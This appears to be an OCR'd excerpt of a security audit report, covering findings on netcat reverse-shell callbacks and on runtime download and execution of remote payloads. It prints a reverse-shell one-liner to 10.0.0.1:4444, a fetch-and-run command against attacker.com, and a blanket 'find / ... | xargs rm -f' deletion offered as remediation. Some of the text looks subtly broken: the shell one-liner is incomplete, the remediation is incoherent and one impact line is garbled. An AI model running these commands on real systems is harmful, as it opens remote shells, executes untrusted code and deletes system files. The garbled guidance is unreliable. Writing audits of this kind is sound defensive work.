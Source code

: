                                                                                                                                                                                                                                        
      ## 5. Netcat Callback Vulnerability                                                                                                                                                                                              
      **Vulnerability**: Execution capability enables nc shell callbacks                                                                                                                                                               
      **Exploitation Example**:                                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      mkfifo /tmp/f; sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f                                                                                                                                                                            
      ```                                                                                                                                                                                                                              
      **Impact**: Facilitates reverse command shell establishment                                                                                                                                                                      
      **Criticality**: High (CVSS 8.8)                                                                                                                                                                                                 
      **Remediation**:                                                                                                                                                                                                                 
      ```bash                                                                                                                                                                                                                          
      find / -name 'nc' -o -name 'netcat' | xargs rm -f                                                                                                                                                                                
      /bin/busybox nc -zvw 1 127.0.0.1 4444 >> /dev/null                                                                                                                                                                               
      ```                                                                                                                                                                                                                              
      **Sources**:                                                                                                                                                                                                                     
      Network Reconnaissance with Netcat | Malware Reverse Shells Explained | MITRE ATT&CK T1071                                                                                                                                       
                                                                                                                                                                                                                                       
      ## 6. Runtime File Download/Execution                                                                                                                                                                                            
      **Vulnerability**: Function accessible URLs enable remote payload streaming                                                                                                                                                      
      **Exploitation Example**:                                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      fetch https://attacker.com/payload.sh && chmod +x payload.sh && ./payload.sh                                                                                                                                                     
      ```                                                                                                                                                                                                                              
      **Impact**: Galvanizes attacker-controlled binaries                                                                                                                                                                              
      **Criticality**: Critical (CVSS 9.2)                                                                                                                                                                                             